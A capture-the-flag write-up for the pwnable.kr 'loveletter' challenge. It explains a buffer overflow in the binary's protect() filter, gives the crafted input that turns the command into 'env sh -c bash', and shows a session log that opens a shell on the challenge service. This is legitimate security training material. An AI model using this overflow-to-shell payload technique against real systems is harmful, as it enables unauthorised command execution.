

# pwnable.kr -- Toddler's Bottle -- loveletter

## 1. Challenge

> At the end... all that matters is love.  
> author: jiwon choi  
>   
> ssh loveletter@pwnable.kr -p2222 (pw:guest)  

## 2. Solution

Log in via SSH and you will see 2 files, `loveletter` and `readme`.

readme
```
connect to port 9034 (nc 0 9034). the 'loveletter' binary will be executed under loveletter_pwn privilege.
pwn it and get a shell and read the flag.
```

Fine, let's download the binary file and drop it into IDA.

The exploit is in function `protect()`. `protect()` will check the string you input and replace every one of the following chars 

```
#&;`'"|*?~<>^()[]{}$\,
```

by `♥` which is 3 bytes long. However, `protect()` does not check buffer length, so it can makes the 256-bytes-long buffer in `main()` overflowed. What worse, `protect()` uses `memcpy()` to join strings and causes null-terminator `\x00` missing. 



How could we get shell?

Well, we can overflow `buffer` and make `prolog_len` be `1` so only the first char of `prolog` will be copied into `loveletter` which is `e`. 

Then `buffer` will be copied into `loveletter`. We can let `buffer` be 

```
nv sh -c bash .....
```

so `loveletter` will be 

```
env sh -c bash .....
```

`.....` can be anything. It won't prevent shell being launched.

In `solve.py`, I send

```
nv sh -c bash AAAAAAAAAAAAAAAAAAAAAAAAAAAAAA...AAA|\x01
```

where the number of char `A` is `(256 - len('nv sh -c bash ') - len('|\x00') - 1) = 239` and it works fine.

```
loveletter@ubuntu:~$ mkdir /tmp/solve2
loveletter@ubuntu:~$ cd /tmp/solve2
loveletter@ubuntu:/tmp/solve2$ vim solve.py
loveletter@ubuntu:/tmp/solve2$ chmod +x solve.py
loveletter@ubuntu:/tmp/solve2$ ./solve.py
[+] Opening connection to localhost on port 9034: Done
[*] Switching to interactive mode
$ ls
flag
log
loveletter
super.pl
```

